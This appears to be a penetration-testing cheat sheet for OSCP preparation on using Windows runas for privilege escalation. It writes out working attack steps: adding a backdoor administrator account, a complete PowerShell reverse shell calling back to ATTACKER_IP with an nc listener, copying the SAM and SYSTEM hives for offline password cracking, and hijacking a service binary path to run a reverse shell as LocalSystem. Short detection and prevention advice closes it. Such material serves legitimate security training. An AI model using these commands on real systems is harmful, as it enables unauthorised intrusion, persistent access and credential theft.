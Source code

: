 # RunAs - Executing Commands with Different Privileges

The `runas` command in Windows allows users to execute programs with different permissions than the current user. This capability is essential for privilege escalation when you've discovered credentials for a more privileged account during penetration testing or red team exercises.

## Basic Syntax and Usage

```cmd
runas /user:<domain\username> "<command>"
```

### Common Parameters

| Parameter | Description |
|-----------|-------------|
| `/user` | Specifies the user account to run the command as |
| `/savecred` | Uses saved credentials (if previously saved) |
| `/netonly` | Indicates the credentials are for remote access only |
| `/noprofile` | Specifies that the user's profile should not be loaded |
| `/env` | Use the current environment instead of the user's |

## Basic Examples

```cmd
# Run Command Prompt as Administrator
runas /user:Administrator cmd.exe

# Run Command Prompt as a domain user
runas /user:DOMAIN\admin cmd.exe

# Open notepad to edit a protected file
runas /user:Administrator "notepad.exe C:\Windows\System32\drivers\etc\hosts"

# Run PowerShell with elevated privileges
runas /user:Administrator "powershell.exe -ExecutionPolicy Bypass"
```

## Privilege Escalation with RunAs

When you discover credentials during a pentest, `runas` can be used for privilege escalation:

### 1. Creating a New Admin User

```cmd
runas /user:Administrator "cmd.exe /c net user hacker Password123! /add && net localgroup administrators hacker /add"
```

### 2. Opening a Backdoor Connection

```cmd
# On attacking machine, start a listener
nc -lvp 4444

# On target, create a reverse shell script (rev.bat)
echo @echo off > rev.bat
echo powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" >> rev.bat

# Execute as Administrator
runas /user:Administrator rev.bat
```

### 3. Accessing Protected Files

```cmd
# Copy SAM and SYSTEM files for offline password cracking
runas /user:Administrator "cmd.exe /c copy C:\Windows\System32\config\SAM C:\temp\SAM.bak"
runas /user:Administrator "cmd.exe /c copy C:\Windows\System32\config\SYSTEM C:\temp\SYSTEM.bak"
```

## Limitations of RunAs

1. **Password Entry**: `runas` will prompt for a password interactively; it doesn't accept pre-supplied passwords in the command line.

2. **SaveCred Option**: The `/savecred` parameter only works if:
   - The user has previously saved credentials using this option
   - The system policy allows credential saving

3. **UAC Limitations**: User Account Control may still block certain administrative actions.

4. **New Session**: Creates a new logon session that doesn't inherit the current session's mapped drives or network connections.

## Bypassing Password Prompt Limitation

Since `runas` requires interactive password entry, here are alternatives for automation:

### 1. Using PowerShell Start-Process

```powershell
$username = "Administrator"
$password = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
Start-Process -FilePath "cmd.exe" -Credential $cred
```

### 2. Using the SaveCred Option

First, save credentials interactively:
```cmd
runas /savecred /user:Administrator cmd.exe
# Enter password when prompted
```

Then use in scripts without password prompt:
```cmd
runas /savecred /user:Administrator "command to execute"
```

### 3. Using Alternative Tools

```cmd
# PsExec (Sysinternals)
psexec -u Administrator -p Password123! cmd.exe

# PowerShell Invoke-Command
powershell -c "$password = ConvertTo-SecureString 'Password123!' -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential('Administrator', $password); Invoke-Command -ScriptBlock {whoami} -Credential $cred -Computer localhost"
```

## Finding Saved RunAs Credentials

During penetration testing, you might find saved credentials from previous `runas /savecred` usage:

```cmd
# Check for saved credentials
cmdkey /list

# Registry location for saved credentials
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunAs"
```

## Real-World Example: Accessing Protected Service Manager

```cmd
# Scenario: Found Administrator credentials during enumeration

# Check service configuration (normally restricted)
runas /user:Administrator "cmd.exe /c sc qc SensitiveService > C:\temp\service_config.txt"

# View the output
type C:\temp\service_config.txt

# Modify service to gain SYSTEM privileges
runas /user:Administrator "cmd.exe /c sc config SensitiveService binPath= \"C:\temp\reverse_shell.exe\" obj= \"LocalSystem\""
```

## Detection and Prevention

System administrators should implement these measures to prevent `runas` abuse:

1. **Disable Credential Saving**: Prevent `/savecred` functionality via Group Policy
2. **Implement Credential Guard**: Protect against credential theft
3. **Audit Usage**: Enable logging of `runas` command execution
4. **Restrict Administrative Access**: Limit who has administrator credentials
5. **Application Control**: Use AppLocker or similar to restrict which programs can be run with `runas`

## OSCP Exam Notes

For the OSCP exam:

1. `runas` is especially useful when credentials are discovered through:
   - Credential hunting in files
   - Registry searches
   - Memory dumping
   - Clear-text password storage

2. The `/savecred` option might be available in misconfigurated environments

3. When `runas` doesn't work, try alternative methods:
   - PowerShell's `Start-Process -Credential`
   - PsExec
   - Windows Management Instrumentation (WMI)

4. Document all attempts with `runas` during the exam, as this demonstrates methodology even if unsuccessful

Remember: Always obtain proper authorization before using these techniques in real environments. 